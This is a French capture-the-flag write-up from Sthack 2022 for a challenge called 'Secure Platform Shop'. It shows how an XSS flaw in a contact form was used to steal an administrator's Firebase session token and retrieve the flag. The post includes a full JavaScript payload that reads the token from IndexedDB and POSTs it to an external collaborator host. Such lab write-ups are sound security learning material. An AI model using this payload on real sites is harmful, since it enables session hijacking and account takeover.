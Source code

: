 ```yaml
---
layout: post
title: SPS
category: Sthack-2022
---
```



# Secure Platform Shop

Nous accédons au challenge et découvrons la page d'accueil.

![img.png](/assets/img/sthack2022/sps/img.png)

Nous constatons qu'un formulaire de contact est présent. De plus, il est possible de prévisualiser le message envoyé.
Nous injectons d'abord du code HTML afin de vérifier s'il est interprété.

![img_1.png](/assets/img/sthack2022/sps/img_1.png)

Nous constatons que le code HTML est interprété. Nous tentons désormais d'exécuter du code Javascript.

![img_2.png](/assets/img/sthack2022/sps/img_2.png)

Le code Javascript est bien interprété.
Nous sommes donc en présence d'une faille de type XSS.

Nous constatons qu'il est possible de créer un compte sur l'application.

![img_3.png](/assets/img/sthack2022/sps/img_3.png)

Nous créons donc un compte et nous connectons. Nous cherchons à savoir comment fonctionne le mécanisme de maintien de session.
Aucun jeton n'est présent dans le local storage ni dans le session storage.
Nous constatons qu'un objet `firebaseLocalStorage` est présent dans le stockage `IndexedDB` du navigateur.

![img_4.png](/assets/img/sthack2022/sps/img_4.png)

Nous écrivons donc un script Javascript permettant de lire l'objet Firebase contenu dans la base de données et de l'envoyer sur un serveur nous appartenant.
La communication avec `IndexedDB` a été rédigée grâce à la [documentation MDN](https://developer.mozilla.org/fr/docs/Web/API/IndexedDB_API).
```js
var open = indexedDB.open("firebaseLocalStorageDb", 1);

// Create the schema
open.onupgradeneeded = function() {
    var db = open.result;
};

open.onsuccess = function() {
    // Start a new transaction
    var db = open.result;
    var transaction = db.transaction(["firebaseLocalStorage"]);
    var objectStore = transaction.objectStore("firebaseLocalStorage");
    var request = objectStore.getAllKeys()

    request.onerror = function(event) {
        console.log("Echec de la requête !");
    }

    request.onsuccess = function(event) {
        if (request.result) {
            const key = request.result[0];
            const req2 = objectStore.get(key)

            req2.onerror = function(event) {
                console.log("Echec de la requête !");
            }

            req2.onsuccess = function(event) {
                if (req2.result) {
                    const token = req2.result.value
                    fetch("https://l9vt4knt6pdu3jub6slnilap3g96xv.oastify.com", {
                        method: "POST",
                        body: JSON.stringify(token)
                    })

                }
            }

        } else {
            console.log("Aucune entrée disponible");
        }
    };

    // Close the db when the transaction is done
    transaction.oncomplete = function() {
        db.close();
    };
}
```

Nous minifions ce code et l'intégrons dans un message à envoyer à l'administrateur via le formulaire de contact.
Ce script sera exécuté sur le navigateur de l'administrateur grâce à la faille XSS.

![img_7.png](/assets/img/sthack2022/sps/img_7.png)

Nous recevons ensuite une requête.

![img_5.png](/assets/img/sthack2022/sps/img_5.png)

Celle-ci contient bien le jeton de l'administrateur.
Nous remplaçons ensuite notre jeton par celui obtenu, dans la requête vers la route `/flag`.

![img_6.png](/assets/img/sthack2022/sps/img_6.png)

Nous récupérons le flag.